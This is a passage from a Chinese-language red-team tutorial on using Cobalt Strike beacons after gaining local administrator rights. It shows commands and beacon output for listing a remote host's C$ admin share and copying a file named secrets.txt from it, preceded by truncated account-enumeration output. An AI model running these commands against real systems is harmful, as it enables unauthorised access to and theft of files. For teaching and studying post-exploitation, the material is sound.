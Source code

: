 ```powershell
PwdExpired   : 
UserFlags    : 

ComputerName : WIN-P26AK33U871
AccountName  : teamssix.com/Daniel
……内容过多，余下部分省略……
```

# 0x04 无需恶意软件

如果一个系统信任我们为本地管理员权限，那么我们可以在那个系统上干什么呢？

## 1、查看共享文件

比如我们可以通过运行下面的命令来列出 C:\foo 的共享文件

```powershell
shell dir \\host\C$\foo
```

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,393,984 可用字节
```

## 2、复制文件

比如运行下面的命令将 `secrets.txt`文件复制到当前目录。

```powershell
shell copy \\host\C$\foo\secrets.txt
```

```powershell
beacon> shell copy \\WIN-P2AASSD1AF1\C$\foo\secrets.txt
[*] Tasked beacon to run: copy \\WIN-P2AASSD1AF1\C$\foo\secrets.txt
[+] host called home, sent: 93 bytes
[+] received output:
已复制         1 个文件。
```
